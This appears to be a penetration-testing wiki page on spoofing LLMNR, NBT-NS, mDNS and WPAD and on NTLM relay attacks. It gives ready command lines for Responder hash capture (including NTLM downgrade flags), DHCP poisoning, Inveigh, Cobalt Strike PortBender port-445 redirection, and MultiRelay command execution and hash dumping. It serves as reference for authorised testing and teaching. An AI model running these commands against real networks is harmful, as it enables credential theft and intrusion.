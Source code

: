 # Spoofing LLMNR, NBT-NS, mDNS/DNS and WPAD and Relay Attacks





## Network Protocols

### Local Host Resolution Protocols
- **LLMNR, NBT-NS, and mDNS**:
  - Microsoft and other operating systems use LLMNR and NBT-NS for local name resolution when DNS fails. Similarly, Apple and Linux systems use mDNS.
  - These protocols are susceptible to interception and spoofing due to their unauthenticated, broadcast nature over UDP.
  - [Responder](https://github.com/lgandx/Responder) can be used to impersonate services by sending forged responses to hosts querying these protocols.
  - Further information on service impersonation using Responder can be found [here](spoofing-llmnr-nbt-ns-mdns-dns-and-wpad-and-relay-attacks.md).

### Web Proxy Auto-Discovery Protocol (WPAD)
- WPAD allows browsers to discover proxy settings automatically.
- Discovery is facilitated via DHCP, DNS, or fallback to LLMNR and NBT-NS if DNS fails.
- Responder can automate WPAD attacks, directing clients to malicious WPAD servers.

### Responder for Protocol Poisoning
- **Responder** is a tool used for poisoning LLMNR, NBT-NS, and mDNS queries, selectively responding based on query types, primarily targeting SMB services.
- It comes pre-installed in Kali Linux, configurable at `/etc/responder/Responder.conf`.
- Responder displays captured hashes on the screen and saves them in the `/usr/share/responder/logs` directory.
- It supports both IPv4 and IPv6.
- Windows version of Responder is available [here](https://github.com/lgandx/Responder-Windows).

#### Running Responder
- To run Responder with default settings: `responder -I <Interface>`
- For more aggressive probing (with potential side effects): `responder -I <Interface> -P -r -v`
- Techniques to capture NTLMv1 challenges/responses for easier cracking: `responder -I <Interface> --lm --disable-ess`
- WPAD impersonation can be activated with: `responder -I <Interface> --wpad`
- NetBIOS requests can be resolved to the attacker's IP, and an authentication proxy can be set up: `responder.py -I <interface> -Pv`

### DHCP Poisoning with Responder
- Spoofing DHCP responses can permanently poison a victim's routing information, offering a stealthier alternative to ARP poisoning.
- It requires precise knowledge of the target network's configuration.
- Running the attack: `./Responder.py -I eth0 -Pdv`
- This method can effectively capture NTLMv1/2 hashes, but it requires careful handling to avoid network disruption.

### Capturing Credentials with Responder
- Responder will impersonate services using the above-mentioned protocols, capturing credentials (usually NTLMv2 Challenge/Response) when a user attempts to authenticate against the spoofed services.
- Attempts can be made to downgrade to NetNTLMv1 or disable ESS for easier credential cracking.

It's crucial to note that employing these techniques should be done legally and ethically, ensuring proper authorization and avoiding disruption or unauthorized access.

## Inveigh

Inveigh is a tool for penetration testers and red teamers, designed for Windows systems. It offers functionalities similar to Responder, performing spoofing and man-in-the-middle attacks. The tool has evolved from a PowerShell script to a C# binary, with [**Inveigh**](https://github.com/Kevin-Robertson/Inveigh) and [**InveighZero**](https://github.com/Kevin-Robertson/InveighZero) as the main versions. Detailed parameters and instructions can be found in the [**wiki**](https://github.com/Kevin-Robertson/Inveigh/wiki/Parameters).

Inveigh can be operated through PowerShell:

```powershell
Invoke-Inveigh -NBNS Y -ConsoleOutput Y -FileOutput Y
```

Or executed as a C# binary:
```bash
Inveigh.exe
```

### NTLM Relay Attack

This attack leverages SMB authentication sessions to access a target machine, granting a system shell if successful. Key prerequisites include:
- The authenticating user must have Local Admin access on the relayed host.
- SMB signing should be disabled.

#### 445 Port Forwarding and Tunneling

In scenarios where direct network introduction isn't feasible, traffic on port 445 needs to be forwarded and tunneled. Tools like [**PortBender**](https://github.com/praetorian-inc/PortBender) help in redirecting port 445 traffic to another port, which is essential when local admin access is available for driver loading.

PortBender setup and operation in Cobalt Strike:
```bash
Cobalt Strike -> Script Manager -> Load (Select PortBender.cna)

beacon> cd C:\Windows\system32\drivers # Navigate to drivers directory
beacon> upload C:\PortBender\WinDivert64.sys # Upload driver
beacon> PortBender redirect 445 8445 # Redirect traffic from port 445 to 8445
beacon> rportfwd 8445 127.0.0.1 445 # Route traffic from port 8445 to Team Server
beacon> socks 1080 # Establish a SOCKS proxy on port 1080

# Termination commands
beacon> jobs
beacon> jobkill 0
beacon> rportfwd stop 8445
beacon> socks stop
```

### Other Tools for NTLM Relay Attack

- **Metasploit**: Set up with proxies, local and remote host details.
- **smbrelayx**: A Python script for relaying SMB sessions and executing commands or deploying backdoors.
- **MultiRelay**: A tool from the Responder suite to relay specific users or all users, execute commands, or dump hashes.

Each tool can be configured to operate through a SOCKS proxy if necessary, enabling attacks even with indirect network access.

### MultiRelay Operation

MultiRelay is executed from the _**/usr/share/responder/tools**_ directory, targeting specific IPs or users.
```bash
python MultiRelay.py -t <IP target> -u ALL # Relay all users
python MultiRelay.py -t <IP target> -u ALL -c whoami # Execute command
python MultiRelay.py -t <IP target> -u ALL -d # Dump hashes

# Proxychains for routing traffic
```

These tools and techniques form a comprehensive set for conducting NTLM Relay attacks in various network environments.

### Force NTLM Logins

In Windows you **may be able to force some privileged accounts to authenticate to arbitrary machines**. Read the following page to learn how:

{% content-ref url="../../windows-hardening/active-directory-methodology/printers-spooler-service-abuse.md" %}
[printers-spooler-service-abuse.md](../../windows-hardening/active-directory-methodology/printers-spooler-service-abuse.md)
{% endcontent-ref %}

## References
* [https://intrinium.com/smb-relay-attack-tutorial/](https://intrinium.com/smb-relay-attack-tutorial/)
* [https://www.4armed.com/blog/llmnr-nbtns-poisoning-using-responder/](https://www.4armed.com/blog/llmnr-nbtns-poisoning-using-responder/)
* [https://www.notsosecure.com/pwning-with-responder-a-pentesters-guide/](https://www.notsosecure.com/pwning-with-responder-a-pentesters-guide/)
* [https://intrinium.com/smb-relay-attack-tutorial/](https://intrinium.com/smb-relay-attack-tutorial/)
* [https://byt3bl33d3r.github.io/practical-guide-to-ntlm-relaying-in-2017-aka-getting-a-foothold-in-under-5-minutes.html](https://byt3bl33d3r.github.io/practical-guide-to-ntlm-relaying-in-2017-aka-getting-a-foothold-in-under-5-minutes.html)
  




